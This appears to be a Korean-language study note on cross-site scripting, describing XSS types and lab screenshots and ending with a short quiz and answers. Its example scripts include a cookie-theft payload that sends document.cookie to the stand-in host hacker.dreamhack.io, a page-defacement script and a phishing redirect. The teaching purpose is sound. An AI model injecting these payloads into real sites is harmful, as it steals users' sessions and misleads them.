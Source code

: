 # Cross Site Scripting (XSS)

## Cross Site Scripting (XSS)

XSS는 **클라이언트 사이드 취약점** 중 하나로, 공격자가 웹 리소스에 **악성 스크립트를 삽입**해 사용자가 해당 웹 리소스를 가져오면, **악성 스크립트를 실행**해서 정보를 탈취

**SOP 보안 정책**이 등장하면서, 이전에 비해 힘들어졌지만, 이를 **우회하는 다양한 기술**이 있다.

<img src="1.jpg">

## XSS 발생 예시와 종류

XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.

예를 들어 **<script>** 등을  이용해  악성  스크립트를  만들어서  사용자가  실행하게  한다.

XSS  종류는  다양하지만, 여기서는 4가지  정도  언급한다.  

|종류|내용|
|---|-----|
|Stored  XSS|XSS에  사용되는  악성  스크립트가 **서버에  저장**되고  서버의 **응답에  담겨오는** XSS|
|Reflected  XSS|XSS에  사용되는  악성  스크립트가 **URL에  삽입**되고  서버의 **응답에  담겨오는** XSS|
|DOM-based  XSS|XSS에  사용되는  악성  스크립트가 **URL  Fragment에  삽입**되는  XSS|
|Universal  XSS|클라이언트의 **브라우저** 혹은 **브라우저의  플러그인**에서  발생하는  취약점으로 **SOP  정책을  우회**하는  XSS|

<img src="2.jpg">

위의 실습에서 악성 스크립트를 작성하면, 아래 그림처럼 script를 탐지했다는 것을 볼 수 있다.

<img src="3.jpg">

## XSS 스크립트 예시

아까 적었던 것처럼 **<script>** 를  통해  악성  스크립트를  만듭니다.

즉, 자바스크립트를 주로 사용한다.

```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");

// 현재 페이지의 쿠키(return type: string)
document.cookie;

// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);

// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";

// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new  Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

위의 코드는 **쿠키 및 세션 탈취** 공격 코드이다.

```html
<script>
// 이용자의 페이지 정보에 접근.
document;

// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

위의 코드는 **페이지 변조** 공격 코드이다.

```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing";

// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

위의 코드는 **위치 이동** 공격 코드이다.  

# Basic XSS Lab(개편 전 실습)
## Types of XSS: Wrapup
### Stored XSS

**Stored XSS** : **서버의 데이터베이스** 또는 **파일** 등의 형태로 저장된 **악성 스크립트를 조회**할 때 발생하는 XSS(예 : 악성 스크립트가 들어간 게시물, 댓글 등)

<img src="4.jpg">

이렇게 스크립트를 적고, 목록에 가서 게시물을 클릭하면 다음과 같이 스크립트가 실행된다.

<img src="5.jpg">

### Reflected XSS

**Reflected XSS** : 서버가 **악성 스크립트가 담긴 요청을 출력**할 때 발생함(예 : 검색결과가 URL에 포함되는 경우 -> 검색엔진)

-> Stored XSS와는 다르게 **URL과 같은 이용자의 요청**에 의해 발생
--> 이용자들이 악성 링크에 접속하게 유도해야함(**Click Jacking** 또는 **Open Redirect**와 같은 취약점과 연계)

<img src="6.jpg">

다음과 같이 실습창이 있고, 위에 있는 URL에서 검색할 수 있다.

<img src="7.jpg">

그런데, 여기에 스크립트를 넣을 수도 있다.

<img src="8.jpg">

## Basic XSS Lab
**추후에 추가**

# 마치며
-   **Cross Site Scripting (XSS)**: 클라이언트 사이드 취약점, 공격자가 **웹 리소스에 악성 스크립트를 삽입**해 이용자의 웹 브라우저에서 해당 **스크립트를 실행**하는 취약점.
-   **Stored XSS**: 악성 스크립트가 **서버 내에** 존재, 이용자가 저장된 **악성 스크립트를 조회**할 때 발생
-   **Reflected XSS**: 악성 스크립트가 **이용자 요청 내에** 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 **응답을 출력**할 때 발생

# 퀴즈

1. 이용자의 요청에 악성 스크립트가 포함되는 XSS는?
**답 : Reflected XSS**

2. XSS 취약점이 발생하는 곳은?
**답 : 클라이언트 + 서버**

3. 다음 설명이 말하는 XSS로 올바른 것은?
**공격 스크립트가 서버 내에 존재하는 데이터베이스 또는 파일 등의 형태로 저장되어 있다가 이용자가 저장된 공격 스크립트를 조회하는 순간 발생하는 형태의 XSS 입니다.**
**답 : Stored XSS**